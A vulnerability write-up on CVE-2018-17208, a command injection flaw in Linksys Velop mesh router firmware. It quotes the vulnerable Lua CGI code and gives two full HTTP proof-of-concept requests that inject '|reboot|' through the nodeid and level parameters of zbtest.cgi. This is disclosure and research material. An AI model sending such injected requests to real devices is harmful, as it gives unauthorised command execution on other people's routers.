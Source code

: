 ```yaml
---
published: true
categories: [vulnerability,Linksys]
tags: [CVE-2018-17208]
---
```


### Affected Software
Firmware version:	The firmware version which I test is 1.1.2.185309
### Product Background
Velop is WHOLE HOMEMESH Wi-Fi system from LINKSYS. It allows users enjoy fast, nonstop Wi-Fi everywhere with Velop’s modular easy-to-use Wi-Fi Mesh system.
There are three categories from their official site :WHW0303,WHW0302,WHW0301. The differences between these three is the pack count: 1, 2 or 3. The system are the same.
### Vulnerability Details
CVE-2018-17208

Since this bug is very easy and there is another researcher has published](https://langkjaer.com/velop.html) the anlysis, so I wont analyze it too much.

zbtest.cgi in /cgi-bin/ is a lua script and let's we take a look into it. The most interesting part starts from line 480:
~~~lua
-- Here is a some code that can control bulb
cmd = params["cmd"]
node_id = params["nodeid"]
level = params["level"]

if cmd == nil then
  node_id = nil
  start_zb_network()
  print("Run zbtest.cgi<br>")
elseif cmd == "permit" then
  permit_zb_network()
  print("Run permit command<br><br>")
elseif cmd == "rescan" then
  print("Run rescan command<br><br>")
  node_id = nil
elseif cmd == "remove" and node_id then
  print("Run remove command : "..node_id.."<br><br>")
  remove_bulbs(node_id)
  node_id = nil
elseif cmd == "on" and node_id then
  print("Run turn on command : "..node_id.."<br><br>")
  name = "/tmp/Belkin_settings/zbdev."..node_id..".state"
  ShellExecute("zbapitest on-off "..node_id.." 1 > "..name.." 2>&1")
  bulbs, err = table.load("/tmp/Belkin_settings/bulbs.tlb")
  bulbs[node_id].onoff = "1"
  table.save(bulbs, "/tmp/Belkin_settings/bulbs.tlb")
elseif cmd == "off" and node_id then
  print("Run turn off command : "..node_id.."<br><br>")
  name = "/tmp/Belkin_settings/zbdev."..node_id..".state"
  ShellExecute("zbapitest on-off "..node_id.." 0 > "..name.." 2>&1")
  bulbs, err = table.load("/tmp/Belkin_settings/bulbs.tlb")
  bulbs[node_id].onoff = "0"
  table.save(bulbs, "/tmp/Belkin_settings/bulbs.tlb")
elseif cmd == "level" and level and node_id then
  print("Run level ("..level..") command : "..node_id.."<br><br>")
  -- name = "/tmp/Belkin_settings/zbdev."..node_id..".state"
  -- ShellExecute("zbapitest level "..node_id.." "..level.." 0 > "..name.." 2>&1")
  ShellExecute("zbapitest level "..node_id.." "..level.." 0 1")
  bulbs, err = table.load("/tmp/Belkin_settings/bulbs.tlb")
  bulbs[node_id].level = level
  table.save(bulbs, "/tmp/Belkin_settings/bulbs.tlb")
end
~~~

We can deliver 3 parameters to the zbtest.cgi: cmd, nodeid and level. There are command injection problems in this code snippet.

- cmd with "remove", no check of node_id
- cmd with "on", no check of node_id
- cmd with "off", no check of node_id
- cmd with "level", no check of node_id and level

#### PoC
~~~http
GET /cgi-bin/zbtest.cgi?cmd=off&nodeid=|reboot| HTTP/1.1
Host: 192.168.1.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: visited-index=true
Connection: close
~~~

~~~http
GET /cgi-bin/zbtest.cgi?cmd=level&nodeid=0x0&level=1|reboot| HTTP/1.1
Host: 192.168.1.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: visited-index=true
Connection: close
~~~

### Timeline
~~~text
2018.04.04: Found the bug

2018-09-19: Another researcher published the bug with link: link](https://langkjaer.com/velop.html)
~~~